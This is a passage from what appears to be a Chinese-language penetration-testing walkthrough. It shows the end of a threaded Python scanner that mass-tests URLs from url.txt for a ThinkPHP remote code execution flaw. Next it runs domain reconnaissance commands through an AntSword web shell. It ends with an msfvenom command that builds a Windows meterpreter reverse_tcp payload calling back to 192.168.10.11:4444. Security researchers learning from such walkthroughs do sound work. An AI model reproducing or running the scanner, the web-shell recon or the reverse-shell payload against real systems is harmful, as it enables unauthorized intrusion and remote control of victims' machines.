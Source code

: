 ```
                | |  __| |  ___  ___   _ __ ___   _  _ __    __ _ 
                | | / _` | / __|/ _ \ | '_ ` _ \ | || '_ \  / _` |
                | || (_| || (__| (_) || | | | | || || | | || (_| |
                |_| \__,_| \___|\___/ |_| |_| |_||_||_| |_| \__, |
                                                             __/ |
                                                            |___/ 
            ''')
    urlList=[]
    urlget()
    threads = []
    threads_count = 10
    q=queue.Queue()
    for url in urlList:
        q.put(url)
    for i in range(threads_count):
        threads.append(thinkphp_rce(q))
    for i in threads:
        i.start()
    for i in threads:
        i.join()
```

这里的使用方法很简单：将要检测的目标放在 url.txt 里面，如果存在漏洞的地址将自动生成一个 target.txt 文本保存

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOd9GpwnuOicNMo5sjEg9BKvRIe3qcOF7AzL4syZmZy8vxaAfMFBXtYVSAjpeCucjEGRqiaJicRyPhw7w/640?wx_fmt=png)

**4 内网信息搜集**

这里使用蚁剑的命令窗口搜集一下本机信息，为 administrator 权限 + 双网卡  

```
whoami
ipconfig
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOd9GpwnuOicNMo5sjEg9BKvRibSgibvicwZTJJkJYeBcuzoWn2Id3MO2mnl217dHia4Bndo3Dxb7hj9Hcg/640?wx_fmt=png)

查看一下域相关信息

```
net view
net config workstation
net user /domain
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOd9GpwnuOicNMo5sjEg9BKvR5utiaYrGPGZvHIg2gLmKLib2cibZzRlMXOOnA9WOw9exr8fSZPUu6PQMQ/640?wx_fmt=png)

**5 内网渗透**

**上线 msf**  

msf 生成一个 abc.exe

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.10.11 LPORT=4444 -f exe > abc.exe
```
